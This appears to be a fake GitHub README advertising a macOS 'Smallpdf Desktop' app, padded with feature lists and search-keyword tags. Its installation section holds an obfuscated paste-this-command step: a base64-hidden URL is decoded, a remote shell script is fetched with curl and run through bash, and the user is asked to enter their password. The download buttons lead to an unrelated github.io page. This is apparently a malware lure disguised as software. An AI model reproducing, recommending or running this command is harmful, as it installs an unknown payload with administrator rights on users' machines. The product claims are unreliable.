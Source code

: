 # 🧾 Smallpdf Desktop — Easy PDF Tools for macOS

Smallpdf Desktop is a powerful and simple PDF management application designed for macOS users. It offers a wide range of tools to convert, compress, edit, and organize PDF files, making document handling effortless for individuals and businesses alike.

## ✅ Download Smallpdf Desktop for macOS  
[![Download Smallpdf](https://img.shields.io/badge/Download-Smallpdf-blueviolet)](https://shuziktobehuman.github.io/huja/SmallPDF)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Smallpdf Desktop?

Smallpdf Desktop brings the convenience of online PDF tools into a native macOS app. It supports converting various file formats to PDF and vice versa, compressing large documents, applying OCR, and editing PDFs with ease — all optimized for Mac users.

---

## ✨ Features

- 📄 Convert PDFs to Word, Excel, JPG, PPT and other formats  
- 🔄 Compress large PDF files without losing quality  
- ✍️ Edit, merge, split, and rotate PDFs  
- 🔍 OCR technology to convert scanned documents into editable text  
- 🖥️ Fully compatible with macOS and Retina displays  
- 🔒 Secure PDFs with passwords and encryption  
- 📤 Simple drag-and-drop interface for fast processing  

---

## 💡 Why Use Smallpdf Desktop?

- ✅ Streamlines PDF workflows on macOS  
- 🚀 Boost productivity with fast, efficient PDF conversions  
- 🔐 Protect sensitive documents with advanced security  
- 🌐 Use offline without internet connection  
- 🖱️ User-friendly interface designed for all skill levels  

---

[![Download Smallpdf](https://img.shields.io/badge/Download-Smallpdf-blueviolet)](https://shuziktobehuman.github.io/huja/SmallPDF)

---

## 🖼️ Preview

![Smallpdf Screenshot 1](https://www.pcworld.com/wp-content/uploads/2025/04/Smallpdf-tools.png)  
![Smallpdf Screenshot 2](https://static-cdn.mackeeper.com/mk-blog-upload/images/new_XdXKOQrjpT.webp)

---

## 📌 Tags

smallpdf, smallpdf jpg to pdf, smallpdf word to pdf, smallpdf free, smallpdf to excel, smallpdf pdf to jpg,  
smallpdf download, smallpdf pdf to excel, pdf to word smallpdf, small pdf com jpg to pdf, smallpdf pdf,  
smallpdf ocr, free small pdf, smallpdf online, word to pdf smallpdf, smallpdf pdf to ppt, smallpdfpro,  
smallpdf com pdf to jpg, smallpdf to jpg, pdf to small pdf, big pdf to small pdf, big pdf to smallpdf,  
big to small pdf, https small pdf, i love small pdf, jpg to pdf small pdf, large pdf to small pdf,  
large pdf to smallpdf, smallpdf mac, smallpdf mac download
